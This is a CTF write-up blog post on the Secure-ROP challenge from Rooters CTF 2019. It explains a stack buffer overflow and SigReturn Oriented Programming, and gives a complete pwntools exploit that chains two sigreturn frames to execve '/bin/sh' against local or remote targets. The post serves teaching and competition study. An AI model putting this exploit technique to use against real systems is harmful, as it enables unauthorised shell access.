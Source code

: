 ```yaml
---
layout: post
title:  "SigReturn Oriented Programming"
date:   2020-01-26 #13:52:01
categories: ctf
description: this article explains about SigReturn Oriented Programming.
tags: pwn srop stack ctf-writeup
---
```


#Secure-ROP

this is a writeup for Secure-ROP Rooters ctf 2019. we are given a 64-bit elf binary
the binary have 2 function
```_start```:
{% highlight c %}
void __noreturn start()
{
  signed __int64 v0; // rax

  sub_401000();
  v0 = sys_exit(0);
  JUMPOUT(0x401048LL);
}
{% endhighlight %}

and ```sub_401000()```:
{% highlight c %}
signed __int64 sub_401000()
{
  signed __int64 v0; // rax
  char buf[128]; // [rsp+0h] [rbp-80h]

  v0 = sys_write(1u, ::buf, 0x2AuLL);
  return sys_read(0, buf, 0x400uLL);
}
{% endhighlight %}
it have buffer overflow vulnerability, size of buf is 128 bytes but the binary
can read ```0x400``` or ```1024 bytes```,

<img src="/images/srop/2020-01-26-180657_682x750_scrot.png" />

the offset to overwrite ```rip``` is 136 bytes , firstly we have to find some gadget
i will use ropper to find all the gadget we need

          0x0000000000401032: pop rax; syscall;
          0x0000000000401033: syscall; leave; ret;
          0x000000000040101f: syscall;

in order to triggering srop we have to set rax to 0xf , first part of our exploit
will look like this

{% highlight python %}
p = "A" * off
p += p64(pop_rax_syscall)
p += p64(0xf) # sys_rt_sigreturn
{% endhighlight %}

why 0xf ? because 0xf is linux syscall for sys_rt_sigreturn. to make it easy i use
pwntools and create the payload using SigreturnFrame to set some register value

{% highlight python %}
frame = SigreturnFrame()
frame.rax = 0 # read syscall
frame.rsp = data + 8
frame.rbp = data + 0x60
frame.rdi = 0 # read from stdin
frame.rsi = data # read into the read write segment
frame.rdx = 0x400 # read 0x400 bytes
frame.rip = syscall_leave_ret # jmp to the syscall; leave; ret gadget after syscall
p += str(frame)
{% endhighlight %}

that will make another read with 0x400 size  and will be stored a rw segment, i use ```.data``` segment
```0x0000000000402000``` now lets send "/bin/sh" to ```.data``` and the offset to the new buffer is
different from the first one , so we have to figure out the offset first. and use another srop
to call ```sys_execve```

{% highlight python %}
p = '/bin/sh\x00'
p += "A" * 96 # Overwrite until return address in our "emulated" stack
p += p64(pop_rax_syscall)
p += p64(0xf)
{% endhighlight %}

after we sent ```/bin/sh``` to our new buffer. now we have to do srop to call ```sys_execve```
this is the last part of our exploit

{% highlight python %}
frame = SigreturnFrame()
frame.rax = 59  # sys_execve
frame.rdi = data # our .data segment
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall
{% endhighlight %}

this is our final exploit :
{% highlight python %}
#!/usr/bin/env python2
'''
    author : tripoloski
    visit  : https://tripoloski1337.github.io/
    mail   : arsalan.dp@gmail.com
'''
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="info",)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("vuln")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = []
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def exploit(r):
    #attach(r)
    off = 136

    # gadget
    pop_rax_syscall = 0x0000000000401032
    pop_rax_syscall_leave_ret = 0x0000000000401032
    syscall = 0x000000000040101f
    syscall_leave_ret = 0x0000000000401033

    # segment
    data = 0x0000000000402000

    p = "A" * off
    p += p64(pop_rax_syscall)
    p += p64(0xf) # sys_rt_sigreturn

    # sigreturn frame
    frame = SigreturnFrame()
    frame.rax = 0 # read syscall
    frame.rsp = data + 8
    frame.rbp = data + 0x60
    frame.rdi = 0 # read from stdin
    frame.rsi = data # read into the read write segment
    frame.rdx = 0x400 # read 0x400 bytes
    frame.rip = syscall_leave_ret # jmp to the syscall; leave; ret gadget after syscall

    p += str(frame)

    r.sendline(p)

    p = '/bin/sh\x00'
    p += "A" * 96 # Overwrite until return address in our "emulated" stack
    p += p64(pop_rax_syscall)
    p += p64(0xf)

    frame = SigreturnFrame()
    frame.rax = 59
    frame.rdi = data
    frame.rsi = 0
    frame.rdx = 0
    frame.rip = syscall

    p += str(frame)

    r.sendline(p)

    r.interactive()


if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("146.148.108.204", 4444)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}
